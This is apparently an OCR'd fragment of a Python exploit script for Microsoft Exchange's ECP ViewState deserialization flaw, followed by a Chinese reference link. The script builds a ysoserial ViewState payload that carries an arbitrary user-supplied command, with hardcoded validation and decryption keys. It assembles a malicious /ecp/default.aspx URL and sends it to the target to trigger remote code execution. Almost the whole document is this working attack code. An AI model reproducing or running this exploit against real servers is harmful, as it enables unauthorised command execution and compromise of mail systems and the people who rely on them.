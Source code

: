 ```python
    user = args.user
    pwd = args.password
    command = args.cmd
    view, key, base_url = get_value(url, user, pwd)
    if key is None:
        key = 'test'
        sys.exit(1)
    ex_payload = """ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "{}" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="{}" --viewstateuserkey="{}" --islegacy """.format(command,view,key)
    if args.encrypt:
        re_payload = ex_payload + ' --decryptionalg="3DES" --decryptionkey="E9D2490BD0075B51D1BA5288514514AF" --isencrypted'
    else:
        re_payload = ex_payload + " --isdebug"
    print("\n"+re_payload)
    out_payload = ysoserial(re_payload)
    if args.encrypt:
        final_exp = "{}/ecp/default.aspx?__VIEWSTATEENCRYPTED=&__VIEWSTATE={}".format(base_url, quote(out_payload))
    else:
        final_exp = "{}/ecp/default.aspx?__VIEWSTATEGENERATOR={}&__VIEWSTATE={}".format(base_url, view, quote(out_payload))
    print("\n[+] Exp url: {}".format(final_exp))
    print("\n[*] Auto trigger payload..")
    status = session.get(final_exp,verify=False,timeout=15)
    if status.status_code==500:
        print("[*] Status code: %i, Maybe success!" % status.status_code)

if __name__ == "__main__":
    main() 
```

参考链接

https://www.anquanke.com/post/id/199772
